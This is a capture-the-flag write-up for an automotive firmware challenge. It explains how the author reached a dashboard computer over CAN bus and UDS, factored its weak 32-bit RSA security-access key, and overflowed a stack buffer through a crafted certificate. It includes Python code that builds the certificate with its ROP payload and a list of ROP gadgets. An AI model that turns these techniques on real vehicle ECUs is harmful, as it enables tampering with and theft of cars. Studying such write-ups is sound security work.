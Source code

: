 ## Climate Controller Catastrophe  (750)

### Description

Catting cars is a major issue these days. It's impossible to sell your stolen car as a whole, so you sell it in parts. Dashboard computers are popular since they break quite often ;-).

Unfortunately, the dashboard computer is paired with the main computer. So, simply exchanging it will not do the trick. In fact, without the handshake to the main computer it will not operate the climate control buttons.

Of course just pairing the dashboard computer isn't cool enough, try to smash the stack instead! We suspect the device isn't using the serial interface for its pairing algorithm.

In addition to the attached challenge and reversing binaries, you're provided a special "challenge" which you can flash to wipe the EEPROM of your dashboard computer.

### Write-up

Challange with maximum points, in some way it wasn't too hard, just amount of code was greater then previous challanges.

This time we have firmware with CAN controllers which is communicated by SPI bus with MCU, for better understanding SPI intercommunication we can use this repository of similar [CAN library](https://github.com/coryjfowler/MCP_CAN_lib), unfortunatly I wasn't able to find exact CAN lib in open source, looks like develpers used own library.

For communication by CAN bus we used Arduino Uno, CAN shield with mcp2515 chip and [CAN bus lib](https://github.com/Seeed-Studio/CAN_BUS_Shield).
Small Arduino sketch was forwarding messages between CAN and Serial interface and python script responsible for processing multi CAN packets.


Among firmware modules you can identify SHA256 algo, HMAC-SHA256, EC routine, but you don't need to look deep inside of all mentioned above. As I discovered a little bit lately firmware handlers implements standart [UDS](https://en.wikipedia.org/wiki/Unified_Diagnostic_Services) servise, also nice cheatsheet  available [here](https://automotive.softing.com/fileadmin/sof-files/pdf/de/ae/poster/UDS_Faltposter_softing2016.pdf). For transmiting data larger than 8 byte, OBD2 and UDS utilize additional protocol, which is well described by links abouve.

Current firmware is using 3 UDS services:

 - 0x27 Security Access - challange/responce authentication mechainsim which you need to pass before accessing other services. Current implementation is using RSA scheme with weak key length (32 bits), 31337 public exponent and 2777704703 module, which can be easely factorized by any online tool, using primes we calculate private exponent 690033473. During authentication we receive challange, encrypt it using private exponent and send back.

 - 0x31 Routine Control - service command in case of reciving "014301" value resets stored shared secret to all 0xFF values.

 - 0x3d Write Memory By Address - service command, which allows overwrite range of address in NVM memory, where EC certificate is located (in case of something goes wrong, challange contains additional firmware for wiping NVM memory, it will be usefull for "unbricking" your board).

Next lets look startup routine, after printing "Initializing..." firmware initialize shared secret (HMAC key), if it set to 0xFF additional parsing of stored EC certificate is done. During parsing (function at 0x6297) some size checks are missing which allows us to overflow stack buffer and overwrite return pointer, all we need to do is make special certificate, store it to NVM and reset the board.

```python
def gen_cert(rop_payload):
    cert_name="1"
    cert_name="\x80"+chr(len(cert_name))+cert_name
    curve_name="\x00"*(108)+rop_payload
    curve_name="\x81"+chr(len(curve_name))+curve_name
    magic="3"
    magic="\x82"+chr(len(magic))+magic
    key="4"*0x31
    key="\x83"+chr(len(key))+key
    sig="5"*0x20
    sig="\x84"+chr(len(sig))+sig
    cert=cert_name+curve_name+magic+key+sig
    cert="\x30"+chr(len(cert))+cert
    return cert
```

Before printing the flag there is additional masking which we need to turn off, for this purpose we can use such rop gadgets:
    ROM:4C68    ser     r24
    ROM:4C69    pop     r0
    ROM:4C6A    pop     r29
    ROM:4C6B    pop     r28
    ROM:4C6C    ret

    ROM:8BB2    sts     flag_mask, r24
    ROM:8BB4    pop     r0
    ROM:8BB5    pop     r29
    ROM:8BB6    pop     r28
    ROM:8BB7    ret

    ROM:925D    pop     r17     #set 0x7212 - print_serial()
    ROM:925E    pop     r16
    ROM:925F    ret

    ROM:9259    mov     r24, r17 # pass 0x7212 to flag_print()
    ROM:925A    mov     r25, r16
    ROM:925B    pop     r29
    ROM:925C    pop     r28
    ROM:925D    pop     r17
    ROM:925E    pop     r16
    ROM:925F    ret

    ROM:8BB8    print_flag:
    ROM:8BB8    push    r28
    ...
    ROM:8BF0    ret

NOTE: Return pointers on XMEGA is stored as 3! bytes in Big Endian.

If everything is correct you will see your flag after "Initializing" message:

![climat](images/climat1.png)
